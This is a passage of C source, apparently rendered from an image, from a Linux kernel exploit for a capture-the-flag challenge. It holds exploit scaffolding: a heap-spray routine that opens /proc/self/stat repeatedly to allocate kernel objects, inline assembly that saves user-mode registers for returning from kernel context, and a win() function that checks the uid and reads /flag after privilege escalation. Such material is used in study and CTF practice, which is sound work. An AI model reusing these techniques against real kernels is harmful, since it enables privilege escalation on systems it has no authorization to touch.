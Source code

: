 ```c
    }

    return -1;
}

void print_arr(void *arr, unsigned int n, unsigned int size) {
    for (unsigned i = 0; i < n; ++i) {
        switch(size) {
            case 1:
            printf("%u: %hhx\n", i, *(uint8_t *)(arr + i));
            break;
            case 2:
            printf("%u: %hx\n", i, *(uint16_t *)(arr + i*2));
            break;
            case 4:
            printf("%u: %x\n", i, *(uint32_t *)(arr + i*4));
            break;
            case 8:
            printf("%u: %lx\n", i, *(uint64_t *)(arr + i*8));
            break;
        }
    }
}

int *spray_seq(int cnt) {
    int *fds = calloc(cnt, sizeof(int));

    for(int i = 0; i < cnt; i++) {
        fds[i] = open("/proc/self/stat", O_RDONLY);
        if(fds[i] < 0) {
            perror("open");
            exit(-1);
        } 
    }

    return fds;
}

unsigned long user_cs, user_ss, user_rsp, user_rflags;
static void save_state() {
  asm(
      "movq %%cs, %0\n"
      "movq %%ss, %1\n"
      "movq %%rsp, %2\n"
      "pushfq\n"
      "popq %3\n"
      : "=r"(user_cs), "=r"(user_ss), "=r"(user_rsp), "=r"(user_rflags)
      :
      : "memory");
}

static void win() {
    char buf[0x100];
    int fd = open("/flag", O_RDONLY);
    printf("[*] uid: %d\n", getuid());

    if (fd < 0) {
        perror("open");
        puts("[-] lose...");
    } else {
        puts("[*] win!");
        read(fd, buf, 0x100);
        write(1, buf, 0x100);
```